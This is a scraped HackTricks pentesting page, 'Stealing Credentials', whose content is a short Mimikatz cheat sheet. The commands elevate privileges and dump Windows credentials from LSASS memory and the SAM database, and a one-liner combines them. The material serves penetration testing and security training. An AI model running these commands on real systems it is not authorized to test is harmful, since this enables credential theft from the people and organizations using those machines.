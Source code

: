 [Phising Documents](https://book.hacktricks.xyz/phising-documents)

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 1067 769' xmlns='http://www.w3.org/2000/svg' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1513'%3e%3cg data-evernote-id='1514' class='js-evernote-checked'%3e%3cpath d='M480.026 640.677c17.205 0 31.2 13.997 31.2 31.194s-13.995 31.193-31.2 31.193c-17.197 0-31.193-13.996-31.193-31.193 0-17.197 13.996-31.194 31.193-31.194m489.93-193.226c-17.203 0-31.2-13.998-31.2-31.195 0-17.204 13.997-31.2 31.2-31.2 17.198 0 31.194 13.996 31.194 31.2 0 17.197-13.996 31.195-31.193 31.195m0-127.804c-53.269 0-96.609 43.34-96.609 96.609 0 10.373 1.723 20.702 5.123 30.741L559.328 616.879c-18.132-26.128-47.521-41.617-79.302-41.617-36.821 0-70.391 21.065-86.63 54.003L106.68 478.109c-30.288-15.927-52.965-65.817-50.56-111.223 1.248-23.687 9.438-42.071 21.897-49.17 7.916-4.493 17.436-4.099 27.526 1.188l1.916 1.01c75.96 40.022 324.6 170.981 335.063 175.844 16.157 7.47 25.14 10.5 52.659-2.547l513.958-267.3c7.53-2.844 16.315-10.062 16.315-21.023 0-15.205-15.72-21.199-15.765-21.199-29.218-14.018-74.163-35.054-117.987-55.57C798.033 84.26 691.861 34.547 645.23 10.132c-40.253-21.072-72.655-3.311-78.432.282l-11.227 5.555C345.727 119.743 64.898 258.826 48.911 268.553 20.278 285.973 2.547 320.679.252 363.768c-3.586 68.304 31.261 139.506 81.069 165.634l303.172 156.354c6.83 47.306 47.55 82.725 95.532 82.725 52.78 0 95.808-42.546 96.603-95.14L910.541 492.38c16.93 13.233 37.92 20.486 59.416 20.486 53.268 0 96.61-43.341 96.61-96.61s-43.342-96.61-96.61-96.61' fill-rule='evenodd' data-evernote-id='1515' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Powered by**GitBook**](https://www.gitbook.com/?utm_source=content&utm_medium=trademark&utm_campaign=hacktricks)

# Stealing Credentials

#

Credentials Mimikatz[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1559'%3e%3cg data-evernote-id='1560' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1561' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1562' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#credentials-mimikatz)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1571'%3e%3cg data-evernote-id='1572' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1573' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1574' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

1#Elevate Privileges to extract the credentials

2privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins

3token::elevate
4#Extract from lsass (memory)
5sekurlsa::logonpasswords
6#Extract from SAM
7lsadump::sam
8#One liner

9mimikatz "privilege::debug"  "token::elevate"  "sekurlsa::logonpasswords"  "lsadump::sam"  "exit"

**Find other things that Mimikatz can do in **[**this page**](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-mimikatz)**.**
